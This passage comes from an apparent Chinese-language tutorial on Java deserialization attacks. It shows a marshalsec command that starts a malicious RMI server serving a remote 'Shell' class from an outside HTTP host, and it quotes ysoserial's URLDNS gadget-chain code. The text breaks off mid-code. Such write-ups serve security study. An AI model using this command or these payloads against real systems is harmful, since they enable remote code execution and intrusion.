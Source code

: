 RMI服务端则利用marshalsec攻击创建，如下所示：

	java -cp marshalsec.jar marshalsec.jndi.RMIRefServer "http://49.234.105.98:8080/#Shell" 1099

Notice: 需要再开一个Http服务传递Shell.class文件

![marshalsec服务端][p4]

## Java反序列化Gadget分析
### URLDNS
先给出ysoserial中的利用链：

	/**
	 * @author : p1n93r
	 * @date : 2021/3/31 11:28
	 * URLDNS Gadget分析
	 */
	public class URLDNS {
	
	    public static Object getObject(final String url) throws Exception {
	
	        //Avoid DNS resolution during payload creation
	        //Since the field <code>java.net.URL.handler</code> is transient, it will not be part of the serialized payload.
	        URLStreamHandler handler = new SilentURLStreamHandler();
	
	        // HashMap that will contain the URL
	        HashMap ht = new HashMap();
	        // URL to use as the Key
	        URL u = new URL(null, url, handler);
	        //URL u = new URL(null, url);
	        //The value can be anything that is Serializable, URL as the key is what triggers the DNS lookup.
	        ht.put(u, url);
	
	        // During the put above, the URL's hashCode is calculated and cached. This resets that so the next time hashCode is called a DNS lookup will be triggered.
	        Class<? extends URL> clazz = u.getClass();
	        Field hashCode = clazz.getDeclaredField("hashCode");
	        hashCode.setAccessible(true);
	        hashCode.setInt(u,-1);
	
	        return ht;
	    }
	
	    /**
	     * 防止创建payload的时候发送DNS解析请求
	     */
	    static class SilentURLStreamHandler extends URLStreamHandler {
	
	        @Override
	        protected URLConnection openConnection(URL u) throws IOException {
	            return null;
	        }

